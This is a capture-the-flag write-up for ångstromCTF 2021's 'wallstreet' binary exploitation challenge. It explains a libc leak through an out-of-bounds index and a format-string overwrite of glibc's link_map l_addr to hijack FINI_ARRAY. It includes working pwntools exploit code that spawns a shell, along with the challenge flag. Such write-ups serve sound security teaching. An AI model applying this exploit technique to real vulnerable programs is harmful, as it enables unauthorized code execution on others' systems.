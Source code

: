 ```yaml
---
title: ångstromCTF 2021 - wallstreet (pwn)
date: 2021-04-15
slug: /writeups/angstromctf-2021-wallstreet
excerpt: An unusual trick for format string exploitation
author: Darin Mao
---
```


wallstreet was a binary exploitation challenge from ångstromCTF 2021. The intended solution involved a stack pivot, but in this writeup I will demonstrate a different technique applicable to many similar challenges.

# Description
> Check out our new market manipulation tool.
>
> Connect with `nc pwn.2021.chall.actf.co 21800`

Files:
- [wallstreet](https://files.actf.co/7fce582f6247c404fe2864406e1eeaef96f608db11d2a593f009226c7d2d5d32/wallstreet)
- [libc-2.32.so](https://files.actf.co/d48f0edffda549cfb524378027d0b997a77a2dd9ea4f69fe3fd553eb1772050b/libc-2.32.so)

# Reversing
Apparently, [Stonk Market](/writeups/picoctf-2021-stonk-market) really upset the author, because the flavortext is copied exactly from that challenge. As in Stonk Market, there is a `buy_stonks` function that contains a single format string vulnerability. However, there is a strange, rather contrived, filter on the format string:

```c
  do {
    if (299 < i) {
      puts("Buying stonks with token:");
      printf(user_buf);
      putchar(10);
      return 0;
    }
    switch(user_buf[i]) {
    case 'A':
    case 'E':
    case 'F':
    case 'G':
    case 'X':
    case 'a':
    case 'c':
    case 'd':
    case 'e':
    case 'f':
    case 'g':
    case 'i':
    case 'o':
    case 'p':
    case 's':
    case 'u':
    case 'x':
      if ((0 < count) || (user_buf[i] != 'c')) {
        puts("Hey! Only one leak allowed!");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      count = count + 1;
    }
    i = i + 1;
  } while( true )
```

Essentially, we are not allowed to use any of these letters except for `c`, which we are allowed to use once. Note that `n` is *not* blocked, so we can potentially write to memory.

The only other difference between this challenge and Stonk Market is the ability to "see" a stonk right before the format string vulnerability.

```c
  puts("What stonk do you want to see?");
  stonk_idx = 0;
  __isoc99_scanf("%d",&stonk_idx);
  puts(stonks[stonk_idx]);
```

We will use this to get a leak.

# libc leak
Note that there is no bounds checking in the stonk viewing, so we can specify indices both before and after the intended array. Since this array is on the stack, we can likely find a pointer to a libc address that we can leak.

Unfortunately, many libc leaks involving the stack are highly reliant on environment, and we do not have access to the deploy used in this challenge. However, even though data *down* the stack is unknown, data *up* the stack should be fairly consistent, because the data there is mostly made up of locals from previous function calls. With some trial and error, we find that an index of -16 points to `stdout@got`, which was placed there by a call to `puts`. This index directly leaks the address of `_IO_2_1_stdout_`, giving us the address of libc.

# Writing to `struct link_map`
glibc uses a large structure called `link_map` to describe each loaded object in memory. These structures form a linked list, and they are used by the dynamic linker. Since it is used during the program startup process, there is almost always a pointer to this structure (describing the main ELF) somewhere down the stack. This means that, with our format string vulnerability, we can overwrite the first few bytes of this structure, and that corresponds to the `l_addr` member.

When the program exits, `_dl_fini` is in charge of calling all the destructors for all loaded objects. The way it does this is by looking at the `link_map` structures ([source](https://elixir.bootlin.com/glibc/glibc-2.32/source/elf/dl-fini.c#L131)).

```c
/* First see whether an array is given.  */
if (l->l_info[DT_FINI_ARRAY] != NULL)
  {
    ElfW(Addr) *array =
      (ElfW(Addr) *) (l->l_addr
          + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
    unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val
          / sizeof (ElfW(Addr)));
    while (i-- > 0)
      ((fini_t) array[i]) ();
  }
```

Basically, it finds the location of the `FINI_ARRAY` by finding the location of the `DT_FINI_ARRAY` dynamic section entry, then *adds it to the value of `l_addr`*. Therefore, we can offset the location of the `FINI_ARRAY` to point to our own input, then place a function pointer there to get rip control.

Conveniently, our input is in a global buffer, at a constant offset from `FINI_ARRAY`. The `FINI_ARRAY` is at `0x403e18`, and `user_buf` starts at `0x4040e0`, giving us a difference of 712. However, we'll need some space to do the format string, so we'll add 16 bytes to get 728.

The only tricky part is figuring out where the pointer to `link_map` is. On my local computer, it was at an offset of 98, but, as previously stated, going down the stack this far is highly reliant on environment. However, we can brute force this offset by writing a function pointer to `main` and trying different offsets around 98. Whichever offset successfully returns back to `main` on the remote server is the pointer to `link_map`. Code to do this is below.

```python
# find offset of struct link_map *
with context.quiet:
  for k in range(90, 110):
    try:
      print(k)
      r = conn()
      r.sendline('1')
      r.sendline('0')
      r.sendafter('token?\n', f'%728c%{k}$n'.ljust(16, ' ').encode() + p64(exe.sym['main']))
      r.recvuntil('trading app')
      print('found', k)
      break
    except:
      pass
    finally:
      r.close()
```

This finds the offset on the remote server to be 100.

# Angry Gadget
I thought this technique was pretty interesting, so I was quite disappointed when I found that no `one_gadget` for this specific libc produced a shell. However, in some cases, [angry_gadget](https://github.com/ChrisTheCoolHut/angry_gadget) can find some more magic addresses with more complicated constraints. With some trial and error, I found this working gadget:

```
libc_base + 0xdf7a6 :
        <Bool reg_rbp_15728_64{UNINITIALIZED} == 0x47>
        <Bool 0xffffffffffffffb0 + reg_rbp_15728_64{UNINITIALIZED} == 0xfffffffffffffff7>
```

This gives us a shell.

```python
r = conn()
r.sendline('1')

# libc leak
r.sendlineafter('want to see?\n', '-16')
libc.address = u64(r.recvline().strip().ljust(8, b'\x00')) - libc.sym['_IO_2_1_stdout_']
log.info(hex(libc.address))

# format string
r.sendafter('token?\n', f'%728c%{k}$n'.ljust(16, ' ').encode() + p64(libc.address + 0xdf7a6))
r.interactive()
```

# Flag
```
actf{i_thought_i_had_it_all_together_but_i_was_led_astray_the_day_you_stack_pivoted_5e1d1028cc862facee3d95ea}
```
